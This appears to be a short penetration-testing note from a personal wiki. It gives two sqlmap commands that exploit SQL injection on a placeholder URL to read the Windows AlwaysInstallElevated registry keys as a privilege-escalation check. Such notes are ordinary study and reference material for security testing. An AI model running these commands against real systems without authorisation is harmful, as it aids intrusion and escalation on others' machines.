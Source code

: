 # Windows

Search Tag: #sqlmap #enumeration-and-discovery #privilege-escalation

TODO: For schedule task

- Enumerate [[01 - Manual AlwaysInstallElevated Exploitation|AlwaysInstallElevated]] for privilege escalation.

```
$ sqlmap -u <URL> --reg-read="HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer" --reg-value="AlwaysInstallElevated"

$ sqlmap -u <URL> --reg-read="HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer" --reg-value="AlwaysInstallElevated"
```